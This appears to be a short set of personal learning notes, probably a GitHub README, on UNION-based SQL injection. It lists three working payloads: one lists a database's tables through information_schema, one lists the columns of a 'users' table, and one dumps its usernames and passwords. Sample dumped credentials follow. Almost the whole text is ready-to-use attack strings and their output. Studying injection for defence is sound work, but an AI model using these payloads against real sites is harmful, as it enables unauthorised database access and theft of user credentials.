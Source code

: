 # Learning SQL Injection

Just taking some notes about different SQL Injections.

#### This will display the tables
```
id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()--
```
#### This will display the columns from the selected table
```
id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'--
```
#### This will display the username and password
```
id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM users
```
##### Example
> admin:p4ssword
> 
> martin:pa$$word
> 
> jim:work12
